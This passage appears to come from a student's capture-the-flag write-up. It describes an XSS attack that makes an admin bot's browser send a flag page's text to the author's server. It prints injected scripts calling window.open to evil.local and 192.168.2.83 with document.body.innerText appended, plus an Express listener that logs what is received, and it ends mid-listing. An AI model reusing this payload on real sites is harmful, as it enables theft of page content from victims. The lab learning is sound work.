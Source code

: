    (4) After reading the `flag.html` page, I should send the content to my own server to get the flag. One way is to set up another URL in the injected script. When the script got executed, the request should be sent automatically. The code could be like this:

   ```js
   <script>
       setInterval(function() {
           document.title = new Date() + "<script>window.open('http://evil.local:3001/synctag?content='+document.body.innerText)<\/script>" ;
       }, 10 * 1000); 
   </script>
   ```

   In this snippet, `http://evil.local:3001/synctag` is a new request, which can accept the flag, the code of this request could be:

   ```js
   app.get('/synctag', function (req, res) {
       console.log(req.query);
       res.send("success");
   })
   ```

   (5) After testing it locally, I launched the code on the server,  the URL should be changed as the server indicated, and removed the `setInterval` function. By adding `http://192.168.2.83:3001` as the visit page for the admin, I was able to get flag from the log of my server.

   ![image-20200303171146646](/home/yanan/.config/Typora/typora-user-images/image-20200303171146646.png)

5. The whole source code of Question 1.5 is as below:

   (1) Exploit code: `evil.html`

   ```html
   <!DOCTYPE html>
   <html>
   <head>
       <title>HTML Reference</title>
       <script>
           document.title = new Date() + "<script>window.open('http://192.168.2.83:3001/synctag?content='+document.body.innerText)<\/script>" ;
       </script>
   </head>
   <body>
   The content of the document......
   </body>
   </html>
   ```
   
   (2) Server code: `index.js`
   
```js
   const express = require('express')
const app = express()
   app.use(express.static(__dirname))
   const port = 3001
   app.use(function(req, res, next) {
       res.header("Access-Control-Allow-Origin", "*");
       next();
   });
   let sendEvil = (req, res) => {
       res.sendFile('evil.html', { root: __dirname })
   }
   app.get('/', sendEvil)
   app.get('/synctag', function (req, res) {
       console.log(req.query);
       res.send("success");
   })
   app.listen(port, () => {
```